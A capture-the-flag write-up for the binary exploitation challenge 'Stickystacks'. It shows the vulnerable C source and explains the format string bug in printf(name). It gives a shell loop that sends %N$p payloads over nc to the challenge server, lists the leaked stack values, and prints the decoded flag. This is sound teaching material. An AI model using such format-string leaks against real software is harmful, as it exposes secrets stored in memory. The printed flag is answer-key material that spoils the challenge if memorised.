

# Stickystacks
**Category: Binary Exploitation**

This challenge presents a binary that asks for a name, and then prints a message containing the first 6 characters of that name.

```
$ ./stickystacks
Name:
Bobby Tables
Welcome, Bobby
```

The source was provided:

```c
typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;


int vuln(){
    char name[7];
    
    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };
    
    
    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);
    
    
    puts("Name: ");
    
    fgets(name, 6, stdin);
    
    
    printf("Welcome, ");
    printf(name);
    printf("\n");
    
    return 0;
}
```

The flag value is put into the struct, and it is never printed.

We can see that we control a 6 byte value that gets sent to `printf`. We can use this to abuse a format string vulnerability to read values from the stack. For example, the `%s` format specifier will leak a string:

```
$ ./stickystacks
Name: 
%s
Welcome, Welcome,
```

We can leak a bunch of values off the stack at different offsets in a loop until we find values that look suspicious.

```sh
$ for i in {0..50}; do echo $i; echo %$i\$p | nc shell.actf.co 21820; done
...
33
Name: 
Welcome, 0x6c65777b66746361
34
Name: 
Welcome, 0x61625f6d27695f6c
35
Name: 
Welcome, 0x6c625f6e695f6b63
36
Name: 
Welcome, 0x5f7365795f6b6361
37
Name: 
Welcome, 0x6b6361625f6d2769
38
Name: 
Welcome, 0x5f6568745f6e695f
39
Name: 
Welcome, 0x65625f6b63617473
40
Name: 
Welcome, 0x3439323135623963
41
Name: 
Welcome, 0x3438363737646165
42
Name: 
Welcome, 0xa7d333935663161
...
```

I stitched the values together in CyberChef. Note that the "a" in the hex at the 42nd iteration had to be trimmed out to make the value a valid string.



`actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}`
